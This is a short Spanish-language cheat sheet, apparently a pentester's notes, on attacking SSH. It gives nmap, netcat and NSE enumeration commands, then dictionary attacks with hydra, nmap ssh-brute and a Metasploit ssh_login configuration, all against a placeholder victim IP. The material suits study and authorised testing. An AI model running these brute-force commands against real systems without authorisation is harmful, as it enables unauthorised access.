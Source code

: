 ```yaml
---
title: 'Protocolo SSH'
description: 'Notas sobre cómo explotarlo'
pubDate: 2023-12-18
author: 'Nicolas Riquelme'
tags: ["Hacking", "Windows", "SSH", "shell", "discover", "Linux"]
tableOfContents:
  minHeadingLevel: 2
  maxHeadingLevel: 3
---
```

# SSH
SSH son las siglas para el protocolo de shell seguro (Secure Shell). Este protocolo usa por defecto el puerto 22 TCP. El protocolo SSH se basa en la arquitectura cliente-servidor, donde un cliente SSH se conecta a un servidor SSH. Las conexiones son cifradas para proteger los datos transferidos, lo que lo hace seguro para la transferencia de archivos, el acceso remoto a sistemas y la administración de sistemas.

## Enumeración
### Enumeración básica
```bash
ping {ip víctima}			 	# para ver si esta activa la red
nmap {ip víctima} 				# para ver los puertos abiertos
nmap -p22 -sV {ip víctima}		# para ver sólo la información del protocolo SSH
nc {ip víctima} 22				# netcat nos indicará lo que "se escucha" por el puerto 22
```
### Enumeración avanzada
```bash
nmap -p22 {ip víctima} --script ssh2-enum-algos												# nos indica los algoritmos que acepa el servidor SSH para la creación de las llaves
nmap -p22 {ip víctima} --script ssh-hostkey --script-args ssh_hostkey=full 					# nos da la clave RSA encriptada
nmap -p22 {ip víctima} --script ssh-auth-methods --script-args="ssh.user={usuario}" 		# nos indica los métodos de autenticación usados para los usuarios
```

## Explotación
### Ataques de diccionario
```bash
hydra -l {usuario} -P {path diccionario} {ip víctima} ssh
nmap -p22 {ip víctima} --script ssh-brute --script-args userdb={path archivo usuarios}

use auxiliary/scanner/ssh/ssh_login
	set RHOSTS {ip víctima}
	set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
	set STOP_ON_SUCCESS true
	set verbose true
	set threads 5
	run
```
